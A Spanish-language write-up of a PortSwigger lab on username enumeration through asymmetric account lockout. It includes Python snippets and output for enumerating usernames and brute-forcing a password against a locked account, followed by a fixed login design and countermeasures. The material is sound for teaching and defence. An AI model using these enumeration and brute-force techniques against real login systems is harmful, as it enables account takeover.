

# Writeup: Username enumeration via account lock (PortSwigger)

- **Lab**: Username enumeration via account lock
- **URL**: https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock
- **Categoría**: Authentication / Username enumeration usando lockout asimétrico como oracle
- **Dificultad**: Practitioner
- **Credenciales**: `app:111111` (descubiertas vía ataque)

---

## 1. Objetivo

Un nuevo signal de username enumeration: el **account lockout asimétrico**. El defender introduce account-lockout (5 fails consecutivos → cuenta bloqueada 1 min) como protección contra brute-force. La defensa funciona contra brute-force pero abre un side-channel nuevo: el lockout sólo dispara para cuentas **que existen**. Para usernames inexistentes, el server sigue respondiendo `Invalid username or password` indefinidamente sin acumular contador.

Esa asimetría revela la existencia: tras 5 intentos basura, la cuenta válida cambia de mensaje a `You have made too many incorrect login attempts.`; las inválidas no.

### El insight central que casi se me escapó

La parte sutil del lab no es phase 1 (enumeración por marker), que es directa. Es phase 2 (brute-force del password de la cuenta válida). El lockout de phase 1 deja la cuenta bloqueada al final, y mi instinto fue diseñar batches con waits para no relockear durante phase 2. Resultó ser **un error**: el writeup oficial no batchea ni espera; **blastea los 100 passwords** contra la cuenta lockeada. La gran mayoría de respuestas tienen el marker de lock; UNA (la del password correcto) **no contiene ningún marker de error**. El check de credenciales sucede independiente del check de lockout: si el password coincide con el hash, la respuesta cambia aunque la cuenta esté bloqueada.

Eso convierte phase 2 en un fingerprint sniper-style trivial: separar las respuestas en buckets `{locked, invalid, neither, success}` y el bucket `neither` (el outlier) tiene exactamente 1 elemento — el password correcto.

---

## 2. Reconocimiento

Login form estándar (POST `/login`, `username` + `password`). Sin CSRF token. Sondeo inicial: enviar 7 intentos con `thisuserdoesnotexist:wrongpass` y ver si lockea.

```
attempt 1: status=200 len=3236 invalid=True lock=False
attempt 2: status=200 len=3236 invalid=True lock=False
...
attempt 7: status=200 len=3236 invalid=True lock=False
```

7 fails en cuenta inexistente → siempre `Invalid`, nunca `lock`. Confirma la asimetría: **el contador no incrementa para cuentas inexistentes**. Threshold y unlock window quedan por probar empíricamente con una cuenta real.

| Caso | Status | Body marker | Length |
|---|---|---|---|
| User válido, pwd inválido (counter < 5) | 200 | `Invalid username or password` | ~3236 |
| User válido, pwd inválido (counter ≥ 5) | 200 | `You have made too many incorrect login attempts` | ~3236 |
| User inválido, cualquier pwd | 200 | `Invalid username or password` | 3236 |
| User válido, pwd correcto | 302 | (Location: `/my-account?id=<user>`) | 0 |
| User válido (locked), pwd correcto | 200 | (sin marker de error) | ~3158 |

La última fila es el descubrimiento clave de phase 2.

---

## 3. Resolución

### 3.1 Phase 1: enumeración por marker de lock

Iterar sobre 101 candidate usernames, 5 intentos cada uno con `wrongpassword123`. Si el último response contiene `LOCK_MARKER`, el username es válido.

```python
for u in usernames:
    for _ in range(5):
        last_text = login(u, "wrongpassword123")
    if LOCK_MARKER in last_text:
        record(u)  # cuenta válida lockeada
```

Output observado:
```
[*] Phase 1: enum por lock-as-oracle, 101 usernames x 5 attempts
[*] 70/101 procesados, locked=0
[+] LOCKED: app  (intento 71/101)
[*] 80/101 procesados, locked=1
[*] 90/101 procesados, locked=1
[*] 100/101 procesados, locked=1
```

Single match: `app`. Nota: no aborto al primer match porque quiero confirmar que sólo hay uno (multiple locks indicarían ruido o threshold incorrecto). Tiempo: ~50s para 505 requests.

### 3.2 Phase 2: blast contra cuenta lockeada

Acá fue donde primero me equivoqué. **Versión inicial**: phase 2 con batches de 4 y sleep de 65s entre batches, pensando que hay que evitar el lock. Output:

```
[*] esperando unlock inicial (65s)...
[!] LOCKED durante batch en pwd='qwerty' (idx 3); reduce --threshold
```

3 fails después del unlock disparan el lock de nuevo. Mi modelo del decay del contador estaba mal. Diseño correcto = ~40 minutos sólo para phase 2 con batches conservadores.

**Versión correcta** después de leer el writeup oficial: NO batchear, NO esperar entre intentos. Blastear los 100 passwords. Clasificar cada respuesta:

```python
def classify(status, text, location):
    if status == 302 and "/my-account" in location:
        return "success"
    if LOCK_MARKER in text:
        return "locked"
    if INVALID_MARKER in text:
        return "invalid"
    return "neither"
```

Output del run real:
```
[*] Phase 2: blast 100 passwords contra app (sin batching)
[+] CANDIDATO (neither): app:111111  status=200 len=3158 loc=''

[*] distribucion: success=0 locked=93 invalid=6 neither=1
```

Lectura:
- **6 invalid**: los primeros 6 passwords del wordlist se procesaron antes que el contador alcance threshold (la cuenta venía con contador parcial, no en 0). Cada uno respondió con marker `Invalid`.
- **93 locked**: del 7° al 100°, todas con marker `Too many attempts`.
- **0 success**: ningún 302 — esperado, porque el lock impide el redirect.
- **1 neither** (`111111`): respuesta única que no contiene `LOCK_MARKER` ni `INVALID_MARKER`. Length 3158 (vs. 3236 de las otras), probablemente por omitir el `<p class="is-warning">...</p>`.

Tiempo de phase 2: ~25 segundos para 100 requests sequential. **Sin sleeps**.

### 3.3 Phase 3: verificación con login real

El password correcto identificado pero la cuenta sigue lockeada. Esperar 65s y hacer login normal:

```
[*] Phase 3: esperando unlock (65s) y login real...
[*] login final: status=302 location='/my-account?id=app' class=success

[+] credenciales: app:111111
[+] Location: /my-account?id=app
```

GET sobre `/` muestra `<section class='academyLabBanner is-solved'>`. Confirmado.

### 3.4 Tiempos comparativos

| Estrategia | Tiempo total | Comentario |
|---|---|---|
| Mi versión inicial (batch=4, wait=65s) | ~40 min teóricos, **abortó en 1 min** | Modelo del decay del contador equivocado |
| Conservadora (batch=2, wait=70s) | ~58 min | Funciona pero lento |
| **Blast (PortSwigger)** | **~1.5 min** (Phase 1: 50s + Phase 2: 25s + Phase 3: 65s wait) | Aprovecha que el oracle persiste bajo lock |

Diferencia: 25× más rápido. El truco no es ir más rápido haciendo lo mismo; es darse cuenta que el lockout NO ES un obstáculo durante phase 2, sino un nuevo signal.

---

## 4. Por qué funciona (y por qué la defensa está rota)

### 4.1 Las dos asimetrías del lockout naïve

**Asimetría 1 (phase 1: enumeración)**: la decisión de lockear depende de si la cuenta existe. Lockear sólo cuentas existentes es una optimización de recursos sensata (¿para qué tracker contadores de cuentas inexistentes? gasta memoria), pero introduce un side-channel binario directo.

**Asimetría 2 (phase 2: brute-force aún con lock)**: el código probablemente luce así:

```python
# Patron del defender naive
def login(username, password):
    user = db.find_user(username)
    if user is None:
        return error("Invalid username or password")  # NO incrementa counter

    if locks.is_locked(username):
        return error("Too many incorrect login attempts")  # devuelve sin chequear pwd

    if not bcrypt.checkpw(password, user.hash):
        locks.increment(username)
        if locks.count(username) >= 5:
            locks.lock(username, duration=60)
        return error("Invalid username or password")

    return redirect("/my-account?id=" + username)  # 302 success
```

Espera. Si el lock check sucede ANTES del pwd check, debería abortar todo intento durante el lock con el marker de lock — entonces ¿por qué el password correcto produce respuesta distinta?

Mirando el código real más probable del lab:

```python
# Patron del lab (que fila el oracle)
def login(username, password):
    user = db.find_user(username)
    if user is None:
        return error("Invalid username or password")

    if not bcrypt.checkpw(password, user.hash):
        locks.increment(username)
        if locks.is_locked(username):    # check DESPUES del increment
            return error("Too many incorrect login attempts")
        return error("Invalid username or password")

    # password correcto: no incrementa, no chequea lock
    return redirect("/my-account?id=" + username)
```

O alternativa equivalente:

```python
def login(username, password):
    user = db.find_user(username)
    if user is None:
        return error("Invalid username or password")

    if bcrypt.checkpw(password, user.hash):
        return redirect("/my-account?id=" + username)  # success path NO chequea lock

    if locks.is_locked(username):
        return error("Too many incorrect login attempts")
    locks.increment(username)
    if locks.count(username) >= 5:
        locks.lock(username, duration=60)
    return error("Invalid username or password")
```

En ambos casos, la observación es la misma: **el éxito de pwd correcto evade el path de lock**. El defender pensó "no quiero penalizar al usuario legítimo que finalmente acertó después de unos fallos" o simplemente colocó el bcrypt check antes del lock check por orden natural del código. Cualquier ruta que dé respuesta distinta para `(pwd correcto, locked)` vs `(pwd incorrecto, locked)` filtra el oracle.

Wait — el response observado no fue 302 sino 200 con body distinto (length 3158). Probablemente el flujo es:

```python
if bcrypt.checkpw(password, user.hash):
    if locks.is_locked(username):
        # No redireccionamos pero tampoco mostramos lock error
        return render_template("login.html")  # form vacío sin mensaje
    return redirect("/my-account?id=" + username)
```

O simplemente: el redirect a `/my-account` se cancela porque la sesión no se establece bajo lock, pero el server no muestra el mensaje de lock porque sabe que la pwd era correcta. El render del template re-incluye el form sin el `<p class="is-warning">` → length distinta.

Pedagógicamente menos importa el detalle exacto que la observación: **cualquier inconsistencia en el manejo de los 4 estados (locked/unlocked × pwd correcto/incorrecto) crea oracle**. El fix correcto: respuesta byte-idéntica en los 4 cuadrantes.

### 4.2 Patrón corregido

```python
GENERIC_LOGIN_FAIL_RESPONSE = render_template("login_failed.html")  # mismo body para todos los fallos

def login(username, password):
    user = db.find_user(username)
    target_hash = user.hash if user else DUMMY_HASH  # constant-time guard contra timing

    if user and locks.is_locked(username):
        # increment counter y devolver respuesta generica (no especial)
        return GENERIC_LOGIN_FAIL_RESPONSE

    valid = bcrypt.checkpw(password.encode(), target_hash)

    if not (user and valid):
        if user:
            locks.increment(username)
            if locks.count(username) >= 5:
                locks.lock(username, duration=60)
        # IMPORTANTE: tambien incrementar counter para users inexistentes
        # (mismo TTL para no acumular memoria infinita)
        else:
            locks.increment_fake(username)
        return GENERIC_LOGIN_FAIL_RESPONSE

    if locks.is_locked(username):
        return GENERIC_LOGIN_FAIL_RESPONSE  # bloqueado incluso con pwd correcta

    return redirect("/my-account?id=" + username)
```

Cambios clave:
1. **Misma respuesta para todos los modos de fallo**: locked, invalid pwd, invalid user → mismo HTML, mismo length. Sin oracle binario.
2. **Counter para users inexistentes** (con TTL): elimina la asimetría de phase 1.
3. **Lock check incluso en el éxito**: `(pwd correcto, locked)` también devuelve la respuesta genérica de fallo, no redirect. Elimina la asimetría de phase 2.
4. **Constant-time bcrypt con DUMMY_HASH**: cierra el oracle de timing del lab anterior.

### 4.3 El bottom line: lockout NO es protección por sí mismo

Account lockout es a menudo presentado como "la" defensa contra brute-force. El lab muestra que mal implementado es **un downgrade defensivo**: introduce nuevos signals que el atacante no tendría sin el lockout. Necesario combinar:

- Counter para users inexistentes (cierra phase 1).
- Respuesta byte-idéntica en todos los modos de fallo (cierra phase 2).
- Captcha o 2FA tras N (defensa positiva, no sólo bloqueo).
- **Decay** del counter (no lock duro infinito) para no abrir DoS sobre cuentas ajenas.

### 4.4 Lugar en la tabla de signals de auth

Comparado con los labs anteriores de la serie:

| Lab | Signal del oracle | Defensa que cierra ese oracle |
|---|---|---|
| Username enum via different responses | Body length differential | Mensaje de error genérico |
| Username enum via subtly different responses | Byte-level differential (espacio/punto) | Body byte-idéntico literal |
| Username enum via response timing | Timing differential (bcrypt en una rama) | Constant-time response (`DUMMY_HASH`) |
| **Username enum via account lock** | **Asimetría de lockout (existe → lockea; no existe → nunca)** | **Counter universal + respuesta uniforme en los 4 cuadrantes** |
| Broken bruteforce protection IP block | Reset on success en counter per-IP | Counter per-username con decay temporal |

Cada lab introduce un signal nuevo que las defensas anteriores NO cubren. La progresión enseña que las defensas son aditivas, no sustitutivas.

---

## 5. Resumen de la cadena



Tres ideas para llevarse:

1. **Lockout asimétrico es un side-channel binario directo**. La asimetría "lockear sólo cuentas existentes" es una "optimización de recursos" que vale como ejemplo canónico de cómo decisiones de implementación razonables introducen oracles. El fix conceptualmente trivial (counter universal con TTL) es ortogonal al lockout en sí.
2. **El lock no enmascara el oracle de phase 2; lo desplaza**. Mi instinto inicial fue tratar el lock como obstáculo a evitar (batches con waits). Lo correcto era tratarlo como un nuevo background contra el cual el password correcto destaca por *ausencia* de marker. El fingerprint cambia pero el oracle persiste.
3. **Leer la solución oficial cuando algo se siente caro**. El primer enfoque que diseñé tomaba 40+ minutos; el correcto toma 1.5 minutos. La diferencia no era optimización sino un cambio de modelo. Cuando el costo de una técnica parece desproporcionado al problema, es señal de que estoy modelando algo mal — vale parar y verificar contra una fuente externa antes de seguir.

---

## 6. Contramedidas

En orden de robustez (acumulativas con las de labs anteriores):

1. **Counter de fallos universal** (también para usernames inexistentes), con TTL corto (e.g. 5 min) para no acumular memoria. Cierra la asimetría de phase 1.
2. **Respuesta byte-idéntica en los 4 cuadrantes** del producto `(user existe/no) × (lock activo/no)`. Mismo HTML, mismo length, mismo timing. Cierra phase 2.
3. **Lockout con decay**, no lock duro: counter -1 cada minuto, en lugar de "5 fails → bloqueo 1 min". Hace que blastear sea costoso pero no abre ventanas oracle al expirar.
4. **Captcha tras N fallos**, no lock automático. Permite que un usuario legítimo siga avanzando bajo fricción y elimina el primitive de DoS sobre cuentas ajenas.
5. **Constant-time response** con `DUMMY_HASH` (heredado del lab de timing). Cierra cualquier residual side-channel temporal.
6. **Rate-limit per-IP combinado con per-username**, sin reset on success (heredado del lab de IP block).
7. **2FA / WebAuthn** para cuentas críticas. Defensa final que sobrevive a todos los oracles anteriores.
8. **Logging y alertas** de patrones anómalos: bursts de 5 fails contra muchos usernames distintos desde una IP (signature de phase 1 enum).

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Username enumeration via account lock*. https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock
- PortSwigger Web Security Academy. (s.f.). *Vulnerabilities in password-based login*. https://portswigger.net/web-security/authentication/password-based
- OWASP Foundation. (s.f.). *Authentication Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Forgot Password Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html — discute el mismo principio de respuesta uniforme aplicado a password reset.
- MITRE Corporation. (2024). *CWE-204: Observable Response Discrepancy*. https://cwe.mitre.org/data/definitions/204.html
- MITRE Corporation. (2024). *CWE-203: Observable Discrepancy*. https://cwe.mitre.org/data/definitions/203.html
- MITRE Corporation. (2024). *CWE-307: Improper Restriction of Excessive Authentication Attempts*. https://cwe.mitre.org/data/definitions/307.html
- NIST. (2017). *SP 800-63B: Digital Identity Guidelines — Authentication and Lifecycle Management* §5.2.2. https://pages.nist.gov/800-63-3/sp800-63b.html — guidelines sobre rate-limiting.
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 6 (Attacking Authentication), §"Account Lockout Mechanisms".
- Writeups hermanos en la serie auth:
  - [`learning/portswigger/username-enumeration-via-different-responses/writeup.md`](../username-enumeration-via-different-responses/writeup.md) — lab #1, length differential.
  - [`learning/portswigger/username-enumeration-via-subtly-different-responses/writeup.md`](../username-enumeration-via-subtly-different-responses/writeup.md) — lab #2, byte-level differential.
  - [`learning/portswigger/username-enumeration-via-response-timing/writeup.md`](../username-enumeration-via-response-timing/writeup.md) — lab #3, timing differential.
  - [`learning/portswigger/broken-bruteforce-protection-ip-block/writeup.md`](../broken-bruteforce-protection-ip-block/writeup.md) — IP-block bypass por reset-on-success.
- Inventario interno: [`inventario/04-explotacion/credenciales/explotacion-brute-force-advanced.md`](../../../inventario/04-explotacion/credenciales/explotacion-brute-force-advanced.md)
- Script: [`bruteforce.py`](bruteforce.py) — phase 1 (enum por marker) + phase 2 (blast con classify) + phase 3 (verify).
